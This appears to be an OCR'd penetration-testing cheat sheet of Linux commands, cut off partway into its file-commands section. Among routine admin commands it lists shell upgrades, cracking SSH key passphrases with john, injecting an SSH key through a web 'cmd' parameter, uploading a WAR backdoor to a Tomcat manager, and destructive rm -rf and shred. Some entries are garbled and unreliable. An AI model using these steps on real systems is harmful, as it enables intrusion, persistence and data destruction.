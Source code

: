 
## Functional commands

| **Command** | **Explanation** |
| :--- | :--- |
| python -c "import pty;pty.spawn('/bin/bash')" | Shell interactive
| wget http:// url -0 url.txt -o /dev/null | Get the address
| rdesktop ip | Access to desktop ip |
| scp /tmp/file user@x.x.x.x:/tmp/file | Send file
| scp user@ remoteip :/tmp/file /tmp/file | Get the file
| useradd -m user | added by the user
| passwd user | Change user password
| rmuser unarne | Delete user
| script -a outfile | Loose recording: Ctrl-D to stop |
| apropos subject | Related commands
| History | History of user commands
| ! num | Executive lines in history
| ssh2john.py id_rsa > ssh-key | Find the passphrase
| john ssh-key | Find the passphrase
| ssh -i id_rsa user@ip | Connect with key and passphrase
| id -u <username> | Get user id
| cut -d: -f3 < <(getent group GROUPNAME) | Get group id
| curl -G 'http://example.com/file.php' --data-urlencode 'cmd=echo ssh-rsa AA...........' | Sending information with the get method in curl
| curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://megahosting.com:8080/ma
nager/text/deploy?path=/exploit.war" | Create backdoor with lfi vulnerability in java |

## File commands

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">diff file file2</td>
       <td style="text-align:left">Compare two files</td>
     </tr>
     <tr>
       <td style="text-align:left">rm -rf dir</td>
       <td style="text-align:left">Forced deletion of folders nested</td>
     </tr>
     <tr>
       <td style="text-align:left">shred -f -u file</td>
       <td style="text-align:left">Rewrite or delete the file</td>
     </tr>